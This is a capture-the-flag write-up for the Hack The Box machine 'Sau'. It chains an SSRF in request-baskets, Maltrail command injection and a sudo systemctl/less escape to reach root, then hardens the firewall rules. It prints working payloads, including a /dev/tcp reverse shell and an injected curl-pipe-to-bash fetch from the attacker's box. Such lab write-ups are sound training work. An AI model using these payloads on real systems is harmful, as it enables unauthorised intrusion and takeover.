

# Summary
[Sau](https://app.hackthebox.com/machines/Sau) is an easy box that contains a website with an SSRF vulnerability. This vulnerability can be used to exploit a command injection vulnerability on an internal Mailtrack website. From there, the `less` pager combined with `systemctl` can be exploited to gain a root shell.
## Nmap
I start of with an nmap scan, `-sC` for default enumeration scripts, `-sV` to enumerate versions and `-v` for verbose mode to list ports as it finds them.
```
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Mon, 27 Nov 2023 07:56:31 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Mon, 27 Nov 2023 07:56:04 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Mon, 27 Nov 2023 07:56:04 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
<...SNIP...>
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Nmap finds 2 open ports, and 2 ports filtered, likely behind a firewall.  The first one is SSH on port 22, and the second is what looks like an HTTP site behaving strangely.
### Port 55555
I browse to port 55555 in my browser and it is an indeed an HTTP site running something called requests-baskets, running version 1.2.1

I do a quick search and find it's an open source project with [a github repo](https://github.com/darklynx/request-baskets). The repo describes it as a *"HTTP requests collector to test webhooks, notifications, REST clients, and more"*, so it sounds like you would use requests-baskets to, for example, send requests to an api that you're developing, and see what the requests look like and how they're behaving.

The second thing I look for is if there's any public vulnerabilities in version 1.2.1, and sure enough, there is! [CVE-2023-27163](https://nvd.nist.gov/vuln/detail/CVE-2023-27163) is for SSRF (Server Side Request Forgery) in requests-baskets vesion 1.2.1 and below. SSRF is a vulnerability where you can get a webserver for example, to make requests for you. This can allow an attacker access to resources they might not otherwise have. For example, port 80 and 8338 are filtered, likely by a firewall on this box, when i try to access them. But if the webserver itself tries to access them, those same firewall rules likely don't apply.

I find a [blog post](https://notes.sjtu.edu.cn/s/MUUhEymt7#) that looks like the original one detailing the exploit. The article states that the following endpoints are vulnerable:
1. /api/baskets/{name}
2. /baskets/{name}
The `/api/baskets/{name}` is actually the endpoint used when creating a new basket. So I create one and capture the request in Burpsuite. Reading the blogpost, it looks like the `forward_url` is the url that the webserver will make an SSRF request to. To verify this, I change the IP to my own, and start a netcat listener to see if I get a hit.



The basket is created, and I get told to send a request to `http://<BOX IP>/<BASKET NAME>` and the request made will appear in the basket. Now if I've done everything right, when I make a request to `http://<BOX IP>/<BASKET NAME>`, I shoud get a hit on my netcat listener, and sure enough I do! This confirms I have SSRF.



Next, I set up a basket to send a request to localhost port 80, as I want to see what's going on there. I capture the basket create request in Burp and send it repeater, as there's a solid chance I'll have to mess around with the payload.



The basket is created and I browse to the given endpoint. However, the page is empty once I browse there. This could be blind SSRF, which would be considerably harder to weaponize. But perhaps there's a way to modify the payload to get unblind SSRF




I read the REST API documentation located at [rbaskets.in](https://rbaskets.in/api.html). Under the *"Baskets"* section, there's documentation for the *"Create a new basket"* endpoint, which is the one we've been messing with. Here, there's documentations for all the parameters we've been supplying in the payload. I find what I need in the `proxy_response` parameter: *"If set to `true` this basket behaves as a full proxy: responses from underlying service configured in `forward_url` are passed back to clients of original requests. The configuration of basket responses is ignored in this case"*. This basket will act as a full proxy, meaning I should be able to see the response to the service that the web server made an SSRF request to.

I go back to the basket I just made, and click the gear icon and set the `proxy response` option to true.



The next time I browse to this baskets endpoint, I get output! It's kind of busted looking but still! At the bottom of the page I see that the port 80 site is running Mailtrail v0.53



I search for *"mailtrail v0.53 exlpoit"* and get a hit back for an [unauthenticated RCE vulnerability!](https://huntr.com/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/) Very good. It looks like a fairly simple exploit. The username is not properly sanitized and is then passed to `subprocess.check_output`, which uses a system command to log logins to Mailtrail. Because the username field isn't properly sanitized, and attacker can send  a username with a `;` in, and add in commands to be executed after the semicolon. The `;` is used on the command line separate commands, so once the username is passed to a system command by `subprocess.check_output`, the `;` will end the system command intended by the script, and execute the command the attacker entered. For example if I enter the username `plus1059; touch HACKED > /tmp`, a file called `HACKED` will be created in `/tmp`.

To send POST data to the endpoint I use `curl`. I send a username `; ping -c <MY IP>` and then run `tcpdump` to  see if I get a hit back, and I do! Remember to enter `-c 1` to limit the amount of pings it will send.
```bash
# Start tcpdump on interface tun0
sudo tcpdump -i tun0

# Send payload with command injection in username
curl 'http://10.129.99.175:55555/urhfeob/login' --data 'username=;ping -c 10.10.15.3'
```



I should be able to use this command injection to get a shell. I set up a netcat listener and send a bash reverse shell in the username. Unfortunately, I do not get a hit back. This could be because of all the special characters acting funky once they hit the server. I try base64 encoding the bash shell, and using the command injection to decode the shell and pipe it to bash. This involves less special characters. This doesn't work either. Okay. I instead write a reverse shell to a file on my attack box and host it in a python webserver. I then use the command injection to curl the reverse shell and pipe it to bash. This does not work either.

I fiddle around with the injection for awhile and eventually figure out through trial and error, that for whatever reason, I can get my shell to work if I pass it as a GET parameter, and surround it with backticks. I'm not entirely sure why this is. Once I get this working, I curl the reverse shell I wrote on my box and pass it to bash, and catch a shell on my netcat listener.
```bash
# Write reverse shell file and host it on attack box
echo 'bash -i >& /dev/tcp/<MY IP>/9001 0>&1' > shell.sh
python3 -m http.server

# Start netcat listener
nc -lvnp 9001

# Use command injection to curl reverse shell and pipe it to bash in GET parameter
curl 'http://10.129.99.175:55555/urhfeob/login?username=;`curl+10.10.15.34/shell.sh|bash`'
```



Once I catch the shell, I use the [python pty trick](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#spawn-tty-shell) to upgrade my shell
```bash
┌──(kali㉿Kali)──[1:46:22]──[~/htb/Machines/Sau]
└─$ nc -lvnp 9001
<...SNIP...>
puma@sau:/opt/maltrail$ python3 -c 'import pty;pty.spawn("bash")'
puma@sau:/opt/maltrail$ ^Z
zsh: suspended  nc -lvnp 9001
                                                                                                                              
┌──(kali㉿Kali)──[1:52:20]──[~/htb/Machines/Sau]
└─$ stty -a              
speed 38400 baud; rows 69; columns 126; line = 0;
<...SNIP...>
                                                                                                                              
┌──(kali㉿Kali)──[1:52:22]──[~/htb/Machines/Sau]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 9001

puma@sau:/opt/maltrail$ stty rows 69 columns 126 && export TERM=xterm
```

Once on the box I check `sudo -l` to see if I can do anything special. I see I can run `systemctl status trail.service`. I search for *"systemctl status trail.service exploit"* and get a hit for [CVE-2023-26604](https://nvd.nist.gov/vuln/detail/CVE-2023-26604). The vulnerability lies in the fact that systemd before 247 does not set `LESSSECURE` to 1. `Less` is actually a more powerful program than you may think, and it can actually be used to launch  other programs from it. For example the [gtfobins page for less](https://gtfobins.github.io/gtfobins/less/#sudo) shows that if `less` can be ran with `sudo`, you can easily get a root shell by simply entering `!/bin/sh` while inside a `less` terminal. CVE-2023-26604 effectively allows me to enter a `less` terminal with `sudo`.

All I have to do to exploit this is simply run `sudo systemctl status trail.service` and it launches a `less` terminal, once inside, I simply type `!/bin/bash` and get a shell as root! Very cool.



### Beyond Root
Now that I have root shell, I want to see if it was indeed a firewall blocking ports 80 and 8338. I use `iptables` to check.
```bash
root@sau:/proc/875# iptables -L
Chain INPUT (policy ACCEPT)
target     prot opt source               destination         
DROP       tcp  -- !localhost            anywhere             tcp dpt:http
DROP       tcp  -- !localhost            anywhere             tcp dpt:8338

Chain FORWARD (policy ACCEPT)
target     prot opt source               destination         

Chain OUTPUT (policy ACCEPT)
target     prot opt source               destination
```
And yup, looks like http (port 80) and port 8338 are blocked everywhere except localhost.

Interestingly, checking `ss -lntp` to see the listening ports, I don't see port 80.
```bash
root@sau:~# ss -lntp
State     Recv-Q    Send-Q       Local Address:Port        Peer Address:Port    Process                                       
LISTEN    0         5                  0.0.0.0:8338             0.0.0.0:*        users:(("python3",pid=875,fd=3))             
LISTEN    0         4096         127.0.0.53%lo:53               0.0.0.0:*        users:(("systemd-resolve",pid=760,fd=13))    
LISTEN    0         128                0.0.0.0:22               0.0.0.0:*        users:(("sshd",pid=880,fd=3))                
LISTEN    0         128                   [::]:22                  [::]:*        users:(("sshd",pid=880,fd=4))                
LISTEN    0         4096                     *:55555                  *:*        users:(("rbaskets",pid=708,fd=3))
```
I check `iptables` again, this time using `-t nat` for table, to check the NAT table. NAT, or Network Address Translation, is used to implement packet translation, altering packet addresses and ports in various ways as they pass through the firewall. In this case, redirecting http (port 80) to port 8338.
```bash
root@sau:/opt/maltrail# iptables -t nat -L
Chain PREROUTING (policy ACCEPT)
target     prot opt source               destination         

Chain INPUT (policy ACCEPT)
target     prot opt source               destination         

Chain OUTPUT (policy ACCEPT)
target     prot opt source               destination         
REDIRECT   tcp  --  anywhere             localhost            tcp dpt:http redir ports 8338

Chain POSTROUTING (policy ACCEPT)
target     prot opt source               destination         
```
#### Improving Firewall Rules
The firewall rules are set to DROP all packets coming to ports 80 and 8338. This is generally fine, but something that could have been done to up security even further is to REJECT the packets. When the firewall rule is set to DROP, incoming packets are discarded and nothing is sent back. Setting the `iptables` rule to REJECT would cause the firewall to send back an error packet to the source, explicitly stating that the port is unreachable.  

Because the rule was set to DROP, `nmap` was able to tell me that something was running on those ports, it just didn't know what. If I hadn't seen those ports in nmap, I wouldn't have necessarily known to send my SSRF requests to port 80, especially if a service had been running on a less common port. Once I got the SSRF, one of the first places I would have checked would have been port 80, but if instead Maltrail wasn't running there, and was only on port 8338, it would have taken me awhile longer to find it. I could have perhaps written a script to scan for open ports through the SSRF vulnerability, but that would have been much more time consuming and far more noisy.

To improve this rule, I first delete the current rules for port 80 and 8338, then add in a REJECT rule for ports 80 and 8338.
```bash
# List current rules for incoming connections by line number
root@sau:/opt/maltrail# iptables -L INPUT --line-numbers
Chain INPUT (policy ACCEPT)
num  target     prot opt source               destination         
1    DROP       tcp  -- !localhost            anywhere             tcp dpt:http
2    DROP       tcp  -- !localhost            anywhere             tcp dpt:8338

# Delete rules from lines 1 & 2
root@sau:/opt/maltrail# iptables -D INPUT 2 && iptables -D INPUT 1

# Add new rules to reject packets with a tcp-reset to ports 80 and 8338
root@sau:/opt/maltrail# iptables -A INPUT -p tcp --dport 80 -j REJECT --reject-with tcp-reset
root@sau:/opt/maltrail# iptables -A INPUT -p tcp --dport 8338 -j REJECT --reject-with tcp-reset

# Verify that my new rules were set
root@sau:/opt/maltrail# iptables -L
Chain INPUT (policy ACCEPT)
target     prot opt source               destination         
REJECT     tcp  --  anywhere             anywhere             tcp dpt:http reject-with tcp-reset
REJECT     tcp  --  anywhere             anywhere             tcp dpt:8338 reject-with tcp-reset

Chain FORWARD (policy ACCEPT)
target     prot opt source               destination         

Chain OUTPUT (policy ACCEPT)
target     prot opt source               destination
```
To verify that this works, I run an nmap scan from my attack box, and sure enough, ports 80 and 8338 just come back as closed rather than filtered.
